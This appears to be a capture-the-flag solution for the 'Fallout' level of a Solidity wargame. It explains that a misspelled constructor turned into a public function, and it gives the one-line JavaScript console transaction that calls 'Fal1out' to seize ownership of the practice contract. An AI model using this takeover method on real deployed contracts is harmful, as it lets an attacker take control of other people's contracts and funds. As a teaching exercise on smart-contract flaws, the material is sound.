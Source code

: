 # Fallout

**HINT:** Read the contract **CAREFULLY**
<details>
<summary>Answer</summary>
<p>

```js
await contract
```
Look at the abi and you'll see because the constructor is miss spelled in has become a normal function. Leaving the contract ownership up to anyone. 
<br></br>

Simply use: 
```js
await contract.Fal1out.sendTransaction({ from:player, value: '10000000000' })
```
You will then be the owner of the contract check with: 
```js
await contract.owner()<br></br>
```
Then click Submit
</details>
